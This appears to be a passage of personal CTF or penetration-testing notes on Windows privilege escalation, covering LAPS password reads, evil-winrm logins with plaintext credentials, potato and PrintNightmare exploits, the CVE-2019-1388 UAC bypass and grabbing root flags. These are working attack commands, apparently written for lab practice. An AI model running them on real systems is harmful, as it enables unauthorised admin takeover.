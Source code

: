 nxc ldap 192.168.199.122 -u fmcsorley -p CrabSharkJellyfish192 --kdcHost 192.168.199.122 -M laps
```

`net user svc_deploy` shows "LAPS_Readers" or something similar to imply LAPS is happening
```
Get-ADComputer DC01 -property 'ms-mcs-admpwd'
```
- ms-mcs-admpwd property shows the local admin password for the box
- `evil-winrm -i 10.129.98.245 -S -u administrator -p 'l2H.h7Ao4m04tk7z+0v5LB.['`
	- root flag will actually be in a different static directory on the box instead of admin because the admin user wont have a static password to confirm flag


`whoami` shows nt authority\local service, use `.\FullPowers.exe` to grant yourself SeImpersonatePrivilege and then run printspoofer/potato exploit


PrintNightmare
- copy CVE-2021-1675.ps1 to target and type command `Invoke-Nightmare`
	- creates admin user on machine `adm1n:P@ssw0rd`


CVE-2019-1388 "Windows Certificate Dialog Elevation of Privilege"
- requries windows GUI (RDP)
1) find a program that can trigger the UAC prompt screen. run it
2) select "Show more details"
3) select "Show information about the publisher's certificate"
4) click on the "Issued by" URL link it will prompt a browser interface. Select Internet Explorer
5) wait for the site to be fully loaded (even if fails to load) & select "save as" to prompt a explorer window for "save as".
6) on the explorer window address path, enter the cmd.exe full path:
	- C:\WINDOWS\system32\cmd.exe
7) now you'll have an escalated privileges command prompt. 
- [https://github.com/nobodyatall648/CVE-2019-1388?tab=readme-ov-file](https://github.com/nobodyatall648/CVE-2019-1388?tab=readme-ov-file)
- [CVE-2019-1388: abuse UAC Windows Certificate Dialog (Windows Local Privilege Escalation)](https://www.youtube.com/watch?v=RW5l6dQ8H-8)

CVE-2017-0213
- Requires OS Version: 10.0.14393 (Build 14393)
	- `systeminfo` to check this
- exploit here https://github.com/WindowsExploits/Exploits/tree/master/CVE-2017-0213
- transfer and run


#### WSL
check `/mnt/c`
- if empty, run command:
```
mount -t drvfs C: /mnt/c
```
- remount drive
- if already in /mnt/c, make sure to cd / then go back in to refresh it
```
cd /mnt/c/Users/Administrator/Desktop
```
- might be able to access admin (or may need to combine with another privesc)

#### nt authority\system but flag says access denied
```
takeown /f "C:\Users\Administrator\Desktop\root.txt"
```
- takes ownership of file
```
dir /q "C:\Users\Administrator\Desktop\root.txt"
```
```